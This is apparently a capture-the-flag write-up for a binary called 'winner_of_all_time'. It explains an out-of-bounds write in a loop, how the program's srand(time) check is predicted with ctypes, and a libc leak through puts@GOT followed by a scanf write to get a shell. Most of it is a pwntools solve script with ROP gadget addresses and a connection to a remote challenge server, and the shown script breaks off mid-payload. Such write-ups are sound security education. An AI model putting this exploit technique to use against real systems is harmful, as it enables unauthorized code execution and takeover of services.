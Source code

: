Basically, the v7 array has only 21 member but in the while loop, it never break if the idx is large than 21, so we can easily build a rop chain and break the while with the magic (it's predictable).

```cpp
import ctypes
LIBC = ctypes.cdll.LoadLibrary('/path/to/dll')
LIBC.srand(LIBC.time(0))
```
I'm use this trick to bypass the check magic value 

```cpp
if ( v7[idc] >= 123456790 )
{
      puts("TVA: you commit the crime of time!!!");
      exit(0);
}
```

However, because of this check, we can't easily build a normal rop chain with the large address in libc. So, i manage to leak libc and use scanf("%lld", <got_addr>) to get shell !!!


Here is my solve script
```python
from pwn import *
from ctypes import*
if args.LOCAL:
    io=process('./winner_of_all_time')
    if args.GDB:
        cmd="""
        init-pwndbg
        b* 0x0000000000401589
        """
        gdb.attach(io, cmd)
else:
    io=remote('157.245.147.89', 25174)
libc=ELF('./libc.so.6')
elf=context.binary=ELF('./winner_of_all_time')        
glibc = cdll.LoadLibrary('./libc.so.6')


pop_rdi=0x0000000000401589
pop_rsi_r15=0x0000000000401596
ret=0x000000000040101a
pop_rbp_ret=0x000000000040133e
leave_ret=0x00000000004013ac
glibc.srand(glibc.time(None))
magic = glibc.rand() % 123456789
print(magic)

for i in range(22):
    io.sendline(str(10).encode())

rbp=0x404b00
io.sendline(str(rbp).encode())

add_nop_ret=0x000000000040127c
mov_rbx=0x00000000004013a8
scanf=0x404060
d=0x000000000040270F
pl=p64(pop_rdi)
pl+=p64(elf.got.puts)
pl+=p64(elf.sym.puts)
pl+=p64(ret)
pl+=p64(pop_rdi)
pl+=p64(d)
pl+=p64(pop_rsi_r15)
```